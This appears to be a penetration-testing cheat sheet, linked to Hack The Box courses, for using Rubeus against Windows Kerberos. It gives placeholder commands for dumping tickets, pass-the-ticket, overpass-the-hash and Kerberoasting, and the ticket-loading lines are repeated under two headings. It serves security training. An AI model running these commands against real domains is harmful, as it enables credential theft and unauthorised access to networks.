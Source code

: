 # Rubeus

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![active_directory_enumeration_attacks](../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

[Rubeus](https://github.com/GhostPack/Rubeus) <small>(3.8k ⭐)</small> is a Windows tool to interact with kerberos and manipulate tickets.

```shell!
PS> .\Rubeus.exe dump /nowrap # Dump tickets
```

Request and load a ticket in the current session:

```shell!
PS> # Load the ticket in the current session
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /ptt
```

Pass the hash:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
```
</div><div>

Pass the Key / OverPass the Hash <small>(create a ticket)</small>:

```shell!
PS> .\Rubeus.exe ptt /ticket:xxx@yyy.kirbi
PS> .\Rubeus.exe ptt /ticket:<the base64 encoded ticket>
PS> # Pass the Key / OverPass the Hash == create a ticket
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /aes256:xxx /nowrap
PS> .\Rubeus.exe asktgt /domain:xxx /user:xxx /rc4:xxx /nowrap
```

Kerberoasting

```shell!
PS> .\Rubeus.exe kerberoast /stats # number of SPNs, encryption types
PS> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> .\Rubeus.exe kerberoast /user:cn /nowrap # cn encryption settings
PS> .\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap # try a downgrade attack
```
</div></div>